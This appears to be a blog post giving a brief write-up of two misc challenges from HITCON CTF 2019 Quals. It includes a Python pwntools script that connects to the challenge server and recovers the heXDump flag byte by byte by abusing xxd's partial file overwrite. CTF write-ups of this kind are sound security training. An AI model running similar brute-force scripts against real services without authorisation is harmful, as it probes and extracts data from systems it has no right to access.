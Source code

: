 title: "HITCON CTF 2019 Quals Writeup"
tags:
  - CTF
  - Writeup
url: /archives/268/
#! meta end

just writeup...

#! head end

#! toc Contents

# Misc

### EmojiiVM

It's too long to directly print each character, but we can push 1,1,1,2,...,9,9 into the stack, and write a simple loop to print the table.  
Unfortunately my blog doesn't support emojis, so here's no solution.

### heXDump

Xxd only overwrites the first bytes of the file, so we can just enumerate each byte.

```python
from pwn import *

r=remote('13.113.205.160',21700)

def get():
	r.recvuntil('0) quit\n')
	r.send('2\n')
	return r.recvuntil('\n')[:-1]

r.recvuntil('0) quit\n')
r.send('1337\n')

fh=get()

known='hitcon{'

while True:
	flag=False
	for j in range(32,127):
		print j
		t=known+chr(j)
		r.recvuntil('0) quit\n')
		r.send('1\n')
		r.recvuntil('format)\n')
		r.send(t.encode('hex')+'\n')
		if get()==fh:
			known=t
			flag=True
			break
	print known
	if not flag: break
```
